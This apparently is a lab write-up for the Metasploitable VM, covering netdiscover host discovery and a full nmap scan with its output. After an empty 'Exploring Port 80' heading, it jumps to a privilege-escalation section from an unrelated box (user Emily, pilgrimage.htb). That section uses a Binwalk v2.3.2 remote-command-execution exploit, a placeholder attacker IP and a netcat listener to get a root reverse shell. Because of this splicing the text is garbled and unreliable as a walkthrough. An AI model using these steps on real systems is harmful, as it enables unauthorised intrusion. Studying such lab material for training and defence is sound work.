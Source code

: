 # Metasploitable

[Download Link](https://www.vulnhub.com/entry/metasploitable-1,28/)

## Host Discovery

To check the IP of the metasploitable machine running as a VM all we have do is makle sure both our attack machine and the metasploit VM are on the same network (regardless if attack machine is the host machine).

Then we can simply run the `netdiscover` command to find the IP.

![image](https://github.com/vsang181/Metasploitable/assets/28651683/d71e86e7-d227-4a5d-88ec-a03d363cb69c)

## Enumeration

### Initial Nmap Scan
Lets start with an initial Nmap scan to scan of all open ports and the services running on those ports.

```
nmap -sCV -p- -O 192.168.75.129
```
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-27 05:39 GMT
Nmap scan report for 192.168.75.129
Host is up (0.00054s latency).
Not shown: 65522 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.1
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
23/tcp   open  telnet      Linux telnetd
25/tcp   open  smtp        Postfix smtpd
|_ssl-date: 2024-01-27T05:39:43+00:00; 0s from scanner time.
|_smtp-commands: metasploitable.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
| ssl-cert: Subject: commonName=ubuntu804-base.localdomain/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2010-03-17T14:07:45
|_Not valid after:  2010-04-16T14:07:45
53/tcp   open  domain      ISC BIND 9.4.2
| dns-nsid: 
|_  bind.version: 9.4.2
80/tcp   open  http        Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.10 with Suhosin-Patch)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.10 with Suhosin-Patch
| http-methods: 
|_  Potentially risky methods: TRACE
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
| mysql-info: 
|   Protocol: 10
|   Version: 5.0.51a-3ubuntu5
|   Thread ID: 18
|   Capabilities flags: 43564
|   Some Capabilities: ConnectWithDatabase, Speaks41ProtocolNew, SupportsCompression, SupportsTransactions, SwitchToSSLAfterHandshake, Support41Auth, LongColumnFlag
|   Status: Autocommit
|_  Salt: ,IhQ;tX9V$PGTNlT?}yh
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
5432/tcp open  postgresql  PostgreSQL DB 8.3.0 - 8.3.7
|_ssl-date: 2024-01-27T05:39:43+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=ubuntu804-base.localdomain/organizationName=OCOSA/stateOrProvinceName=There is no such thing outside US/countryName=XX
| Not valid before: 2010-03-17T14:07:45
|_Not valid after:  2010-04-16T14:07:45
8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/5.5
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
MAC Address: 00:0C:29:44:35:DD (VMware)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: Host:  metasploitable.localdomain; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: metasploitable
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: metasploitable.localdomain
|_  System time: 2024-01-27T00:39:32-05:00
|_nbstat: NetBIOS name: METASPLOITABLE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: mean: 1h15m00s, deviation: 2h30m00s, median: 0s

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.27 seconds
```

The scan resulted in showing multple ports open 21, 22 ,23, 25, 53, 80, 139, 445, 3306, 5432, 8009 and 8180.

### Exploring Port 80 




















## Privilege Escalation

An initial attempt to run 'sudo -l' to list Emily's sudo privileges was unsuccessful.

By running the linpeas.sh script, we discovered a process located at /usr/sbin/malwarescan.sh. As user Emily, we have read permissions for this process.

The content of the script revealed the following details:

![image](https://github.com/vsang181/Hackthebox/assets/28651683/d0188909-07c1-4fc7-9dc9-6e6cd3c3d177)

The bash script was designed to monitor a specific directory (/var/www/pilgrimage.htb/shrunk/) for the creation of new files, employing the 'inotifywait' command for this purpose.

The script has a blacklist, an array of string patterns ("`Executable script`" and "`Microsoft executable`"). If the output of the `binwalk` command (stored in the `binout` variable) contains any of the blacklisted string patterns, the script removes the file.

A check on the 'binwalk' version revealed it to be Binwalk v2.3.2.

A quick Google search for known exploits against this version of binwalk unveiled a Remote Command Execution (RCE) vulnerability.

[Binwalk v2.3.2 - Remote Command Execution (RCE)](https://www.exploit-db.com/exploits/51249)

With this identified vulnerability, we had the potential to remotely execute code as root within the system.

The exploit code was saved into a file, named, for instance, 'exploit.py'.

The exploit was launched using the following command:

```
python3 exploit.py /path/to/input.png your.ip.address.here 4444
```

This operation created a png file ready to be uploaded and subsequently executed by 'binwalk', as identified earlier in the 'malwarescan.sh' script.

Concurrently, we started listening on the specified port via 'netcat'.

An HTTP server was then started, and while still in SSH, the 'wget' command was used to retrieve the file into the specified folder.

This process ultimately resulted in gaining a root shell, enabling access to the coveted root flag.

